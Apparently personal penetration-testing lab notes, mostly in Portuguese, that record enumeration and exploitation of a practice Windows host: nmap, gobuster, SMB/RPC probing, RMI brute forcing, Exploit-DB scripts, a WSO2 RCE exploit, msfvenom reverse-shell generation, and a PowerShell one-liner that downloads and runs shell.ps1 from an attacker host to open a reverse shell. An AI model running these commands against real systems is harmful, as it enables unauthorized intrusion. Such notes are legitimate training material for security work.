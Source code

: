 192.168.109.101
========================
# Enumeration

    sudo nmap_enum 192.168.109.101 | tee nmap_output.txt
    
    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn 192.168.109.101
![qownnotes-media-CwAdyB](../media/qownnotes-media-CwAdyB.png)


    gobuster dir -u http://192.168.109.101 -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-FuDFag](../media/qownnotes-media-FuDFag.png)


    smbclient -L //192.168.109.101
    
    smbclient -L //192.168.109.101 -U '' -N

![qownnotes-media-MqwBrN](../media/qownnotes-media-MqwBrN.png)

    sudo nmap -sV -sC 192.168.109.101 -p 8099,9099,9999,11111

![qownnotes-media-HuuUNv](../media/qownnotes-media-HuuUNv.png)



    rpcclient -U '' -N 192.168.109.101

![qownnotes-media-iPoHBl](../media/qownnotes-media-iPoHBl.png)

    nikto -host http://192.168.109.101 -T x 6
 
 ![qownnotes-media-RfknWL](../media/qownnotes-media-RfknWL.png)


    sudo nmap -sV -Pn -n -T5 -p `cat open_ports.txt | tr '\n' ','` 192.168.109.101udo nmap -sV -Pn -n -T5 -p `cat open_ports.txt | tr '\n' ','` 192.168.109.101

![qownnotes-media-SoBnhh](../media/qownnotes-media-SoBnhh.png)

Das portas abertas, temos as seguintes:

Aqui não achei nada de interessante também
80

RPC não funciona aqui também
135

SMB NUll session .... nada
139
445


5040

AMQP ... Nada demais
5672


Mobile RCE... Nada  também
9099
https://www.exploit-db.com/exploits/51010

    python mobile_exploit.py --target 192.168.109.101 --lhost 1192.168.49.109
    python mobile_exploit.py --target 192.168.109.101 --file /media/owncloud/Area_de_trabalho/tools/windows/3-exploitation/nishang/Shells/shell.ps1 --lhost 1192.168.49.109
    
    


JAVA RMI
Esses não funcionaram também

9999
11111
https://github.com/BishopFox/rmiscout.git

    ./rmiscout.sh wordlist -i lists/prototypes.txt 192.168.109.101 9999
    ./rmiscout.sh wordlist -i lists/prototypes.txt 192.168.109.101 11111
    ./rmiscout.sh wordlist -i demo/wordlist.txt 192.168.109.101 11111
    ./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 192.168.109.101 9999
    ./rmiscout.sh bruteforce -i lists/methods.txt -r void,boolean,long -p String,int -l 1,4 192.168.109.101 11111
    
19150

https://www.exploit-db.com/exploits/22832

    msfvenom -p windows/shell_reverse_tcp -f pl LHOST=192.168.49.109 LPORT=80
    /exploit_19150.pl 192.168.109.101 19150
    

49664 -RPC
49665    .
49666    .
49667    .
49668    .
49669
49671
49672   RPC

## As que sobraram

65469   
    
    sudo nmap -p 65469 -sV -sC --version-intensity 9 192.168.109.101

    python exploit_wso.py https://192.168.109.101:9443
    python exploit_wso.py http://192.168.109.101:9443
9443 WSO

9611 - WSO
9711 - 
9763 - WSO

    nmap -p 9443,9611,9711,9763 -Pn -sV 192.168.109.101 --version-intensity 9 -T5
    
    

7680 - pando-pub ???
8099 - WSO
8243 - WSO
8280 - WSO
8672

    nmap -p 7680,8099,8243,8280,8672 -Pn -sV 192.168.109.101 --version-intensity 9 -T5
    
![qownnotes-media-Eljjet](../media/qownnotes-media-Eljjet.png)


![qownnotes-media-muElvd](../media/qownnotes-media-muElvd.png)

![qownnotes-media-XZMwAx](../media/qownnotes-media-XZMwAx.png)

![qownnotes-media-BUBufH](../media/qownnotes-media-BUBufH.png)


![qownnotes-media-OfQXcu](../media/qownnotes-media-OfQXcu.png)


![qownnotes-media-cJURrw](../media/qownnotes-media-cJURrw.png)

![qownnotes-media-GieBSm](../media/qownnotes-media-GieBSm.png)

    powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.49.109/shell.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.49.109 -Port 8081
 
https://raw.githubusercontent.com/tufanturhan/wso2-rce-cve-2022-29464/main/exploit.py

 ![qownnotes-media-JbOpBV](../media/qownnotes-media-JbOpBV.png)

![qownnotes-media-DrzWfk](../media/qownnotes-media-DrzWfk.png)


